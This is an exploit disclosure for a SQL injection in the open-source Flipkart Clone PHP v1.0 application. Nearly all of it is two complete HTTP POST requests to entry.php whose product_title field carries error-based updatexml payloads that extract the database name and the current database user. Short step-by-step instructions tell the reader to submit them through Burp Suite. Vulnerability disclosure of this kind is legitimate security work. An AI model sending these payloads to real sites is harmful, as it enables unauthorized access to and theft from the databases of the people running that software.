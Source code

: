 # Flipkart Clone PHP v1.0 - SQL injection

#### Exploit Title: Flipkart Clone PHP v1.0 - SQL injection
#### Date: 08/28/2022
#### Exploit Author: Cosemz
#### Software Link: https://github.com/jigar-sable/Flipkart-Clone-PHP
#### Version: 1.0
#### Tested on: Apache2.4.39 Mysql5.7.26 PHP7.3.4
#### Description：
*SQL injection is a code injection technique used to attack
data-driven applications, in which malicious SQL statements are
inserted into an entry field for execution (e.g. to dump the database
contents to the attacker). wikipedia*

Vulnerability File: /Flipkart-Clone-PHP-main/entry.php

Payload:
```
POST /Flipkart-Clone-PHP-main/entry.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 730
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

product_title=12312123' and updatexml(1,concat(0x7e,database()),0) and '
&product_rating_star_count=11231231123&product_img=123123123&product_img_alt=12312312&product_review_count=123123&product_price=12312312312&product_cutted_price=123123123&product_seller=13123123&product_model=123123123&product_rating_count=12312312&product_brand_logo=12312312&product_desc=123123123&product_color=123123123&product_sales_package=123123123&product_warranty_summary=1231231231&product_domestic_warranty=123123123&product_warranty_covered=123123123&product_warranty_ncovered=123123123&product_generic=123123123&product_manf=123123123&product_origin=123123123&product_highlights=123123123&product_color1=1231231231&product_color2=2312312&submit=
```

Example：

1.Visit Url.

http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php

![1.png](./1.PNG)



2.Submit payload using Burp suite to get database name and current user.

```
POST /Flipkart-Clone-PHP-main/entry.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 730
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

product_title=12312123' and updatexml(1,concat(0x7e,database(),0x7e,user()),0) and '
&product_rating_star_count=11231231123&product_img=123123123&product_img_alt=12312312&product_review_count=123123&product_price=12312312312&product_cutted_price=123123123&product_seller=13123123&product_model=123123123&product_rating_count=12312312&product_brand_logo=12312312&product_desc=123123123&product_color=123123123&product_sales_package=123123123&product_warranty_summary=1231231231&product_domestic_warranty=123123123&product_warranty_covered=123123123&product_warranty_ncovered=123123123&product_generic=123123123&product_manf=123123123&product_origin=123123123&product_highlights=123123123&product_color1=1231231231&product_color2=2312312&submit=
```
![2.png](./2.PNG)





